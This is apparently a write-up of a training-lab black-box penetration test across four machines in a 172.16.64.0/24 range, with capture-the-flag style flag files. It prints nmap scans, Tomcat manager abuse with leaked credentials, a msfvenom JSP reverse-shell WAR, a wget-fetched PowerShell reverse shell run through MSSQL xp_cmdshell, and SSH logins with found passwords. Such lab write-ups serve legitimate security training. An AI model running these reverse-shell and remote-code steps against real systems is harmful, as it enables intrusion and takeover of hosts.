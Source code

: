 ```yaml
---
description: >-
  You have been engaged in a Black-box Penetration Test (172.16.64.0/24 range).
  Your goal is to read the flag file on each machine.
---
```


# BB1

## Prework

### Connect to VPN

```bash
sudo openvpn black-box-penetration-test-1.ovpn
```

### Scan network

```bash
sudo nmap -sn 172.16.64.0/24 --exclude 172.16.64.10 -oN hostAlive.nmap &&
cat hostAlive.nmap | grep for | awk {'print $5'} > ips.txt &&
sudo nmap -sV -n -v -Pn -p- -T4 -iL ips.txt -A --open -oX portScan.xml &&
nmap2md.sh portScan.xml | xclip| xclip
```

## Scanner

> Generated on **Sun Jul 11 13:40:33 2021** with `nmap 7.91`.

```bash
nmap -sV -n -v -Pn -p- -T4 -iL ips.txt -A --open -oX portScan.xml
```

## Hosts Alive \(4\)

| Host | OS | Accuracy |
| :--- | :--- | :--- |
| 172.16.64.101 | Linux 3.12 | 95% |
| 172.16.64.140 | Linux 3.12 | 95% |
| 172.16.64.182 | Linux 3.12 | 95% |
| 172.16.64.199 | Microsoft Windows 10 | 96% |

## Open Ports and Running Services

### 172.16.64.101 \(Linux 3.12 - 95%\)

| Port | State | Service | Version |
| :--- | :--- | :--- | :--- |
| 22/tcp | open | ssh | OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 |
| 8080/tcp | open | http | Apache Tomcat/Coyote JSP engine 1.1 |
| 9080/tcp | open | http | Apache Tomcat/Coyote JSP engine 1.1 |
| 59919/tcp | open | http | Apache httpd 2.4.18 |

{% tabs %}
{% tab title="Dirbuster" %}
* Target URL: [http://172.16.64.101:8080](http://172.16.64.101:8080)
* File Extension: \*
* File with list of dirs/files: /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
{% endtab %}

{% tab title="Report" %}
```bash

```
{% endtab %}
{% endtabs %}

{% hint style="info" %}
Trying to access unsuccessfully for a couple of times will get you redirected to [**http://172.16.64.101:8080/host-manager/html**](http://172.16.64.101:8080/host-manager/html), where the following information is shown:

```text
<role rolename="admin-gui"/>
<user username="tomcat" password="s3cret" roles="admin-gui"/>
```

[**http://172.16.64.101:8080/manager/html**](http://172.16.64.101:8080/manager/html) ****allows you to upload a war file.
{% endhint %}

#### Generate your reverse shell with `msfvenom`

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=172.16.64.10 LPORT=1234 -f war > shell.war
```

```bash
nc -lvp 1234
```

{% hint style="success" %}
**Flag encountered!**

```bash
tomcat8@xubuntu:/home/developer$ cat flag.txt
Congratulations, you got it!
tomcat8@xubuntu:/home/adminels/Desktop$ cat flag.txt 
You did it!
```
{% endhint %}

### 172.16.64.140 \(Linux 3.12 - 95%\)

| Port | State | Service | Version |
| :--- | :--- | :--- | :--- |
| 80/tcp | open | http | Apache httpd 2.4.18 |

#### dirbuster

![](../../.gitbook/assets/dirbuster-140-1.png)

![](../../.gitbook/assets/dirbuster-140-2.png)

{% hint style="info" %}
**Discovering info**

On this url we find the following connection parameters for a SQL database server: [**http://172.16.64.140:80/project/backup/test/sdadas.txt**](http://172.16.64.140:80/project/backup/test/sdadas.txt):

```text
Driver={SQL Server};Server=foosql.foo.com;Database=;Uid=fooadmin;Pwd=fooadmin;
/var/www/html/project/354253425234234/flag.txt
```
{% endhint %}

{% hint style="success" %}
**Flag encountered!**

Under [**http://172.16.64.140/project/354253425234234/flag.txt**](http://172.16.64.140/project/354253425234234/flag.txt) we find the following content:

```text
Congratulations, you exploited this machine!
Now continue to others.
```
{% endhint %}

### 172.16.64.182 \(Linux 3.12 - 95%\)

| Port | State | Service | Version |
| :--- | :--- | :--- | :--- |
| 22/tcp | open | ssh | OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 |

{% hint style="info" %}
**We use the credentials we discovered while exploring 172.16.64.199:**

```bash
sshpass -p dF3334slKw ssh developer@172.16.64.182
```
{% endhint %}

{% hint style="success" %}
**Flag encountered**!

```text
sshpass -p dF3334slKw ssh developer@172.16.64.182
developer@xubuntu:~$ find . | grep flag
developer@xubuntu:~$ cat flag.txt 
Congratulations, you got it!
```
{% endhint %}

### 172.16.64.199 \(Microsoft Windows 10 - 96%\)

| Port | State | Service | Version |
| :--- | :--- | :--- | :--- |
| 135/tcp | open | msrpc | Microsoft Windows RPC |
| 139/tcp | open | netbios-ssn | Microsoft Windows netbios-ssn |
| 445/tcp | open | microsoft-ds |  |
| 1433/tcp | open | ms-sql-s | Microsoft SQL Server 2014 12.00.2000.00; RTM |
| 49664/tcp | open | msrpc | Microsoft Windows RPC |
| 49665/tcp | open | msrpc | Microsoft Windows RPC |
| 49666/tcp | open | msrpc | Microsoft Windows RPC |
| 49667/tcp | open | msrpc | Microsoft Windows RPC |
| 49668/tcp | open | msrpc | Microsoft Windows RPC |
| 49669/tcp | open | msrpc | Microsoft Windows RPC |
| 49670/tcp | open | msrpc | Microsoft Windows RPC |
| 49943/tcp | open | ms-sql-s | Microsoft SQL Server 2014 12.00.2000 |

#### Attacking MS SQL Server

```bash
# Grab payload
wget https://gist.githubusercontent.com/staaldraad/204928a6004e89553a8d3db0ce527fd5/raw/fe5f74ecfae7ec0f2d50895ecf9ab9dafe253ad4/mini-reverse.ps1;

# Substitute ip and port
sed -i 's/127.0.0.1/172.16.64.10/; s/413/1234/' mini-reverse.ps1;

# Encode payload
cat mini-reverse.ps1 | iconv -f ascii -t utf16 | tail -c +3 | base64 -w 0 > encoded_payload;

# We'll use this payload in our shell
cat encoded_payload 
```

```bash
# Leave nc opened in one terminal
nc -l 1234
```

```bash
# Connect to database server and inject reverse shell via powershell
mssql-cli -S 172.16.64.199 -U fooadmin -P fooadmin
> enable_xp_cmdshell
> RECONFIGURE
> xp_cmdshell whoami
> xp_cmdshell powershell -e <payload_from_previous_step>
```

{% hint style="success" %}
**Flag encountered!**

```text
cd c:\
where /r c:\ flag.txt
cd c:\Users\AdminELS\Desktop\
cat flag.txt
Congratulations! You exploited this machine! 
```
{% endhint %}

{% hint style="info" %}
`ssh://developer:dF3334slKw@172.16.64.182:22` **seems like a ssh connection string:**

```
PS C:\Users\AdminELS\Desktop> cat id_rsa.pub
ssh-rsa AAAAB3NzaC1yc2EAAAABJQAAAQEAlGWzjgKVHcpaDFvc6877t6ZT2ArQa+OiFteRLCc6TpxJ/lQFEDtmxjTcotik7V3DcYrIv3UsmNLjxKpEJpwqELGBfArKAbzjWXZE0VubmBQMHt4WmBMlDWGcKu8356blxom+KR5S5o+7CpcL5R7UzwdIaHYt/ChDwOJc5VK7QU46G+T9W8aYZtvbOzl2OzWj1U6NSXZ4Je/trAKoLHisVfq1hAnulUg0HMQrPCMddW5CmTzuEAwd8RqNRUizqsgIcJwAyQ8uPZn5CXKWbE/p1p3fzAjUXBbjB0c7SmXzondjmMPcamjjTTB7kcyIQ/3BQfBya1qhjXeimpmiNX1nnQ== rsa-key-20190313###ssh://developer:dF3334slKw@172.16.64.182:22############################################################################################################################################################################################
```
{% endhint %}

